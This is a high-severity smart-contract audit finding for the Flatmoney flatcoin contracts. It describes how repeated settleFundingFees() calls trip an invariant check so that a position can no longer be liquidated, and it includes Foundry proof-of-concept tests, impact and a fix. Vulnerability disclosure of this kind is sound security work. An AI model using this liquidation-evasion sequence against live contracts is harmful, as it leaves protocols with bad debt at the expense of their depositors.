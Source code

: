 Colossal Tan Chameleon

high

# User can abuse of settleFundingFees method to prevent being liquidated

## Summary
User can abuse of `settleFundingFees()` method to prevent being liquidated

## Vulnerability Detail

1. When Alice faced liquidation，and Liquidators can liquidate Alice`s position.

2. Alice  call  `settleFundingFees()` method repeatedly. 
 https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/FlatcoinVault.sol#L216

3. Liquidators calls` liquidate() `method ，meanwhile` perform invariant checks on order liquidation`
 https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LiquidationModule.sol#L85

https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/misc/InvariantChecks.sol#L56
```solidity
function liquidate(uint256 tokenId) public nonReentrant whenNotPaused liquidationInvariantChecks(vault, tokenId)
```


4. Because of Alice abuse of `settleFundingFees() ` method，the value of `marginDepositedTotal ` has changed  ,and therefore `collateralBalance < trackedCollateral`,  `_getCollateralNet()` method revert.
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/misc/InvariantChecks.sol#L97
```solidity
uint256 collateralBalance = vault.collateral().balanceOf(address(vault));
        uint256 trackedCollateral = vault.stableCollateralTotal() + vault.getGlobalPositions().marginDepositedTotal;

        if (collateralBalance < trackedCollateral) revert FlatcoinErrors.InvariantViolation("collateralNet");
```

poc

1. Under normal circumstances
```solidity

 function test_poc_liquidation() public{
        setWethPrice(1000e8);

        uint256 tokenId = announceAndExecuteDepositAndLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: 100e18,
            margin: 50e18,
            additionalSize: 120e18,
            oraclePrice: 1000e8,
            keeperFeeAmount: 0
        });

          uint256 tokenId1 = announceAndExecuteDepositAndLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: 100e18,
            margin: 50e18,
            additionalSize: 120e18,
            oraclePrice: 1000e8,
            keeperFeeAmount: 0
        });

            uint256 tokenId2 = announceAndExecuteDepositAndLeverageOpen({
            traderAccount: bob,
            keeperAccount: keeper,
            depositAmount: 100e18,
            margin: 50e18,
            additionalSize: 100e18,
            oraclePrice: 1000e8,
            keeperFeeAmount: 0
        });
        
        
        vm.startPrank(admin);
        vaultProxy.setMaxFundingVelocity(0.006e18);
        vaultProxy.setMaxVelocitySkew(0.2e18);

      
        skip(15 days);
        
         

         uint256 liqPrice = liquidationModProxy.liquidationPrice(tokenId);
         console2.log(liqPrice);

        //assertGt(liqPrice / 1e10, 1000e8, "Liquidation price should be greater than entry price");

        // Note: We are taking a margin of error here of $1 because of the approximation issues in the liquidation price.
        setWethPrice((liqPrice - 1e18) / 1e10);
        uint256 newCollateralPrice = (liqPrice - 1e18) / 1e10;

         FlatcoinStructs.PositionSummary memory alicePositionSummary1 = leverageModProxy.getPositionSummary(tokenId);
        int256 remainingMargin = alicePositionSummary1.marginAfterSettlement;
        int256 profitLoss = alicePositionSummary1.profitLoss;
        console2.log('alice profitLoss:',profitLoss);

        vm.startPrank(liquidator);
        liquidationModProxy.liquidate(tokenId);
    }

[PASS] test_poc_liquidation() (gas: 4199741)
Logs:
  1040763226366001604622
  alice profitLoss: 4589109368586113687

Test result: ok. 1 passed; 0 failed; finished in 28.20ms

```

2 . Attack scenario，Alice abuse of `settleFundingFees` method to prevent being liquidated
```solidity
  
    function test_poc_liquidation() public{
        setWethPrice(1000e8);

        uint256 tokenId = announceAndExecuteDepositAndLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: 100e18,
            margin: 50e18,
            additionalSize: 120e18,
            oraclePrice: 1000e8,
            keeperFeeAmount: 0
        });

          uint256 tokenId1 = announceAndExecuteDepositAndLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: 100e18,
            margin: 50e18,
            additionalSize: 120e18,
            oraclePrice: 1000e8,
            keeperFeeAmount: 0
        });

            uint256 tokenId2 = announceAndExecuteDepositAndLeverageOpen({
            traderAccount: bob,
            keeperAccount: keeper,
            depositAmount: 100e18,
            margin: 50e18,
            additionalSize: 100e18,
            oraclePrice: 1000e8,
            keeperFeeAmount: 0
        });
        
        
        vm.startPrank(admin);
        vaultProxy.setMaxFundingVelocity(0.006e18);
        vaultProxy.setMaxVelocitySkew(0.2e18);

        skip(15 days);
        
         uint256 liqPrice = liquidationModProxy.liquidationPrice(tokenId);
         console2.log(liqPrice);

        //assertGt(liqPrice / 1e10, 1000e8, "Liquidation price should be greater than entry price");

        // Note: We are taking a margin of error here of $1 because of the approximation issues in the liquidation price.
        setWethPrice((liqPrice - 1e18) / 1e10);
        uint256 newCollateralPrice = (liqPrice - 1e18) / 1e10;
       
        /***************************************************************/
        vm.startPrank(alice);
        vaultProxy.settleFundingFees();
        
        vaultProxy.settleFundingFees();
/***************************************************************/
       

         FlatcoinStructs.PositionSummary memory alicePositionSummary1 = leverageModProxy.getPositionSummary(tokenId);
        int256 remainingMargin = alicePositionSummary1.marginAfterSettlement;
        int256 profitLoss = alicePositionSummary1.profitLoss;
        console2.log('alice profitLoss:',profitLoss);

        vm.startPrank(liquidator);
        liquidationModProxy.liquidate(tokenId);
    }

[FAIL. Reason: InvariantViolation(collateralNet)] test_poc_liquidation() (gas: 5021853)

```


## Impact
Certain  positions will never be eligible for liquidation and hence protocol   may be left with bad debt. potentially leading to insolvency if the bad debts accumulate.

## Code Snippet
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/misc/InvariantChecks.sol#L93

## Tool used

Manual Review

## Recommendation
limit the use of `settleFundingFees()` method,to implement  access control
